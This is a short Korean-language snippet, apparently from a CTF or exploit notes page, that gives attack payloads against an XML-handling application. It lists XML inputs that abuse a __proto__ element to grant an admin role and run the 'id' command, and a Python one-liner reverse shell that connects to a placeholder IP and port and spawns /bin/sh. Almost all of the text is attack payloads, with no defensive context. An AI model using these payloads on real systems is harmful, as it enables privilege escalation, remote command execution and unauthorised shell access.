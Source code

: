 id 명령어 실행
`<__proto__><exec>id</exec></__proto__>`
`<__proto__><role>admin</role><exec>id</exec></__proto__>`


리버스 쉘
```
<role>admin</role>
<command>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</command>
```
